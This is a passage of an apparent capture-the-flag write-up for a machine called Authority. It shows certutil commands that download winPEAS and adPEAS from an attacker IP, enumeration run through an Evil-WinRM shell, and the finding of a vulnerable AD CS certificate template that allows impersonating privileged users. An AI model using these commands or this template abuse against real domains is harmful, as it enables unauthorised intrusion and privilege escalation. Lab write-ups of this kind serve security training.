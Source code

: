 
- I transferred the winpeas script and ran it
`certutil.exe -urlcache -split -f http://10.10.14.58/winPEASx86.exe winPEASx64.exe`
- I also transferred the adPEAS script `certutil.exe -urlcache -split -f http://10.10.14.221/adPEAS.exe adPEAS.ps1
-  and ran it as well 

```shell
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> . ./adPEAS.ps1
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Invoke-adPEAS

```
- from the output of adPEAS, I saw that an AD CS service name AUTHORITY-CA was on the domain

![](assets/Authority_assets/Pasted%20image%2020230820155230.png)

- I also saw that this AD CS service had a vulnerable template known as CordVPN, and this template had this `ENROLLEE_SUPPLIES_SUBJECT` flag 

![](assets/Authority_assets/Pasted%20image%2020230820160015.png)

- Doing some googling, from [AD Certificate Services: Risky Settings and Their Remediation (netwrix.com)](https://blog.netwrix.com/2021/08/24/active-directory-certificate-services-risky-settings-and-how-to-remediate-them/#SnippetTab) I saw that
> When the flag CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT is present in the [mspki-certificate-name-flag](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-crtd/1192823c-d839-4bc3-9b6b-fa8c53507ae1) property, the enrollee of the certificate can supply their own alternative Subject Name in the certificate signing request. This means that any user who is allowed to enroll in a certificate with this setting can request a certificate as any user in the network, including a privileged user.

- we can also run the certify.exe script to find vulnerable templates

